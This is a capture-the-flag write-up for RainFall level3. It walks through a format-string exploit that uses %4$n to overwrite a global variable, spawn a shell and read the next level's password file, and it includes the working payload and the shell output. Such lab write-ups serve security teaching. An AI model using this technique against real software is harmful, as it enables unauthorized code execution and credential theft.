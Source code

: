 # Walkthrough

## Solution

```
level3@RainFall:~$ (python -c 'print ("\x8c\x98\x04\x08" + "A" * 60 + "%4$n")'; cat) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
pwd
/home/user/level3
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## Explanation

### Execution

```
level3@RainFall:~$ ./level3 
hello
hello
```
-> The program waits for an input, and then echo that output.  

### Disassembly

```
info var
0x0804988c  m

info function
0x080484a4  v
0x0804851a  main
```

You can view the commented asm code [here](Ressources/assembly.asm)  
You can view the asm code translated to C [here](source.c)  


### Steps

The variable m, located at 0x804988c has to be = to 64 in order to launch the syscall to /bin/sh.  

Direct parameter access allows parameters to be accessed directly by using the dollar sign qualifier.  
For example, %n$d would access the nth parameter and display it as a decimal number.  
This method of direct access eliminates the need to step through memory until the beginning
of the format string is located, since this memory can be accessed directly.  

We use %p or %x to know where our m variable starts in the memory.  
```
level3@RainFall:~$ ./level3 
AAAA %p %p %p %p %p %p %p 
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070
```
-> The 4th one is pointing at our input (AAAA), we need to overwrite the 4th argument (A = 41).  

If we replace the 4th %p by a %n, we will be able to write where the 4th %p is pointing at (i.e. at 0x41414141).  
But this address doesn't exist, so we get a segfault when we do ./level3 AAAA%p%p%p%n.  


%4$n: the 4th element of the stack is a %n, equivalent to writing %x%x%x%n, except the 3 %x won't print.  
%n writes the number of characters there is before the %n, where it is pointing at.  

If we can find the pointer to "AAAA", we can replace AAAA by a specific address to write to.  
We want to write at address 0x804988c, if we do :  
\x8c\x98\x04\x08%4$n, it will write 4 at 0x804988c, as an address is 4 bytes long.  

> -> we therefore need to print 64 characters before the %n to store 64 at 0x804988c,  
in order to pass the cmp and launch the shell.  
`
The beginning of the format string should consist of the target memory address, 60 bytes of junk,
and then 4th parameter printed as %n (=64, target address (4bytes) + 60 * A + %4$n).
`
### Final command

level3@RainFall:~$ (python -c 'print ("\x8c\x98\x04\x08" + "A" * 60 + "%4$n")'; cat) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
pwd
/home/user/level3
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
